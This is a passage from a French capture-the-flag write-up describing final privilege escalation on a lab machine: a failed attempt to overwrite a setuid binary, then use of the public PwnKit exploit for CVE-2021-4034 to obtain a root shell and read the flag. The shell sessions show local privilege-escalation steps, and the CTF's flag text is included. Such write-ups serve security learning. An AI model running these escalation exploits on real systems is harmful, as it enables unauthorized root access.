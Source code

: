 Du coup l'appel échoue, le binaire ne peux pas fonctionner.

Comme j'ai pu le dire sur d'autres CTFs, écraser un binaire setuid retire son bit donc impossible de rectifier l'appel à setuid :

```shellsession
www-data@debian:/home/defender/Downloads$ ls -al .shelf
-rwsrwxrwx  1 defender defender 16896 Mar  8  2021 .shelf
www-data@debian:/home/defender/Downloads$ which id
/usr/bin/id
www-data@debian:/home/defender/Downloads$ cat /usr/bin/id > .shelf
www-data@debian:/home/defender/Downloads$ ls -al .shelf 
-rwxrwxrwx 1 defender defender 43808 Feb 19 02:53 .shelf
```

Pour passer root on peut heureusement compter sur l'exploit `PwnKit` pour la `CVE-2021-4034` :

```shellsession
www-data@debian:/tmp$ ./PwnKit 
root@debian:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@debian:/tmp# cd /root
root@debian:~# ls
root.txt
root@debian:~# cat root.txt
Congratulations on Getting Root Privileges!

book4["4cyber_sec_kevin4"]

This CTF is made by Securium Solutions Pvt Ltd!
Authors:
Sunil Singh
Neha Singh
Pallab Jyoti Borah
Vishal Thakur
Shubham Jaiswal
Sam Nivethan V J

See you with Another one :)
```

Six auteurs pour créer ce CTF et aucun n'a visiblement vérifié que ça fonctionnait correctement...

*Publié le 18 février 2023*
